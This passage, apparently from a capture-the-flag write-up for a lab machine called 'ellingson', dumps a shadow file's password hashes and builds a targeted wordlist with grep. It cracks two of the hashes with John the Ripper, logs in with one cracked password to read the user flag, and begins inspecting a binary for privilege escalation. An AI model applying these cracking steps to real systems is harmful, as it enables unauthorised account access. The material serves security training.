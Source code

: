 ```
$ cat shadow
theplague:$6$.5ef7Dajxto8Lz3u$Si5BDZZ81UxRCWEJbbQH9mBCdnuptj/aG6mqeu9UfeeSY7Ot9gp2wbQLTAJaahnlTrxN613L6Vner4tO1W.ot/:17964:0:99999:7:::
hal:$6$UYTy.cHj$qGyl.fQ1PlXPllI4rbx6KM.lW6b3CJ.k32JxviVqCC2AJPpmybhsA8zPRf0/i92BTpOKtrWcqsFAcdSxEkee30:17964:0:99999:7:::
margo:$6$Lv8rcvK8$la/ms1mYal7QDxbXUYiD7LAADl.yE4H7mUGF6eTlYaZ2DVPi9z1bDIzqGZFwWrPkRrB9G/kbd72poeAnyJL4c1:17964:0:99999:7:::
duke:$6$bFjry0BT$OtPFpMfL/KuUZOafZalqHINNX/acVeIDiXXCPo9dPi1YHOp9AAAAnFTfEh.2AheGIvXMGMnEFl5DlTAbIzwYc/:17964:0:99999:7:::
```

Firstly i tried to crack theses hashees with john with the default dictionary "rockyou", but it will take some days, so i have to create a new dictionary from "rockyou" with passwords informations caught before, "... the most common passwords are. Love, Secret, Sex and God"

#### Create a new dictionary
```
$ grep  -i  "Love\|Secret\|sex\|God" rockyou.txt > wordlist
```
#### Crack hashes
```
$ john --wordlist=wordlist shadow
Warning: detected hash type "sha512crypt", but the string is also recognized as "sha512crypt-opencl"
Use the "--format=sha512crypt-opencl" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 4 password hashes with 4 different salts (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Remaining 2 password hashes with 2 different salts
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads

theplague:password123:1000:1000:Eugene Belford:/home/theplague:/bin/bash
margo:iamgod$08:1002:1002:,,,:/home/margo:/bin/bash
```

#### Passwords
password123      (theplague)

iamgod$08        (margo)

The password for user "theplague" dosen't work, but password of margo worked great and i have the user flag:
```
margo@ellingson:~$ cat user.txt | wc -c
33
```

### On the road to root

Here i'm in the last step to be root, let's execute the binary foud before :
```
$ margo@ellingson:~$ /usr/bin/garbage 
Enter access password: 
```
the binary asks for a password, ok let's see if i can found some useful information.
strings command did it fine and i found the password hardcoded in the binary :
```
$ strings /usr/bin/garbage
Balance is $%d
%llx
%lld
/var/secret/accessfile.txt
user: %lu cleared to access this application
user: %lu not authorized to access this application
User is not authorized to access this application. This attempt has been logged.
```